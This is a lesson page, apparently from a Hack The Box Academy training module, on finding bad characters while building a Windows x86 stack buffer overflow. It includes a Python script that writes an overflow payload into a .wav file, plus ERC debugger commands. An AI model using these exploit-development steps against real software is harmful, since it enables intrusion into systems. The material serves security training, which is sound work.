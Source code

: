 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/89/section/947
// Platform Version: V1
// Module ID: 89
// Module Name: Stack-Based Buffer Overflows on Windows x86
// Module Difficulty: Medium
// Section ID: 947
// Section Title: Identifying Bad Characters
// Page Title: Hack The Box - Academy
// Page Number: 5
-->

# Identifying Bad Characters

**Module Name:** Stack-Based Buffer Overflows on Windows x86 **Page Number:** 5

#### 

#### STACK-BASED BUFFER OVERFLOWS ON WINDOWS X86

# Identifying Bad Characters

## Generating All Characters

![https://academy.hackthebox.com/storage/modules/89/win32bof_erc_bytearry.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_erc_bytearry.jpg)

## Updating our exploit

``` python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])
    
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)

bad_chars()
```

## Comparing our Input

![https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_stack.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_stack.jpg)

![https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_esp.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_esp.jpg)

``` cmd-session
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_compare.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_compare.jpg)

## Eliminating Bad Characters

``` cmd-session
ERC --bytearray -bytes 0x00
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_erc_bytearry_2.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_erc_bytearry_2.jpg)

``` python
def bad_chars():
    all_chars = bytes([
        0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08
...SNIP...
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_compare_2.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_bytes_compare_2.jpg)

# 

# 

#### Questions

####